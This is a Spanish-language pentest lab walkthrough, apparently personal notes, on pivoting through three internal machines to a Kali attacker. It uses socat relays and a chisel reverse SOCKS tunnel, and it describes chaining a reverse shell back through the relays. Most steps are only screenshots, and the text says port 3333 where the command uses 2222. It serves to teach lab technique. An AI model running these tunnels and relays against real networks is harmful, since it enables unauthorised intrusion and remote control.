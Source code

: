 Ahora en la máquina 2 tenemos que traernos el chisel, por lo que lo compartimos desde la máquina 1:
![[Pasted image 20230824102012.png]]
Nos lo bajamos en la máquina 2:
![[Pasted image 20230824102056.png]]
Y ahora lo que debemos hacer es configurar el socat en la máquina 1 para decir que todo el tráfico que venga por el puerto 3333 (por ejemplo), lo envíe al chisel de la máquina Kali:
```bash
./socat tcp-l:2222,fork,reuseaddr tcp:10.10.10.12:1234
```
![[Pasted image 20230825160048.png]]
Por tanto ahora, desde la máquina 2 tenemos que ejecutar el chisel enviando el tráfico a la máquina 1 por el puerto 3333 que a su vez enviará este tráfico al kali donde está el chisel escuchando, creando un nuevo túnel por el puerto 8888:
```bash
./chisel client 20.20.20.13:2222 R:8888:socks
```
![[Pasted image 20230825160115.png]]
Y en el kali habremos recibido la conexión para poder llegar a la máquina 3:
![[Pasted image 20230824103919.png]]
De tal forma que ahora si en la máquina 3 montamos un servidor http con python, podremos visualizarlo en la máquina atacante, pero para ello tenemos que añadir este nuevo túnel a la configuración del proxychain:
![[Pasted image 20230824104152.png]]
![[Pasted image 20230824104046.png]]
Vamos a crear el servidor http en la máquina 3:
![[Pasted image 20230824104431.png]]
En el navegador ponemos el nuevo túnel:
![[Pasted image 20230824104518.png]]
Y podemos ver su puerto 80:
![[Pasted image 20230824104540.png]]
Pero si desde esta máquina 3 intentamos enviarnos una reverse shell, no vamos a poder, por lo que debemos enviar socat y chisel a esta máquina 3, por tanto primero nos lo compartimos desde la máquina 1 a la 2:
![[Pasted image 20230824105056.png]]
Y ahora de la máquina 2 nos compartimos socat y chisel con la máquina 3:
![[Pasted image 20230824105244.png]]
Una vez hecho esto, tenemos que ejecutar socat en cada una de las máquinas, de tal forma que diremos en la máquina 1 que todo el tráfico recibido por el puerto 2222 lo envíe a la máquina kali por el puerto 446:
![[Pasted image 20230824110228.png]]
Después hacemos lo mismo en la máquina 2, diciendo que todo el tráfico recibido por el puerto 2222 lo envíe al puerto 2222 de la máquina 1:
![[Pasted image 20230824110256.png]]
Y ahora desde la máquina 3 es cuando podemos decir que envíe la reverse shell por el puerto 2222 a la máquina 2, que a su vez esta la enviará a la máquina 1 y esta a la atacante:
![[Pasted image 20230824110332.png]]
Y habremos recibido conexión de la máquina 3 a la máquina kali:
![[Pasted image 20230824110400.png]]

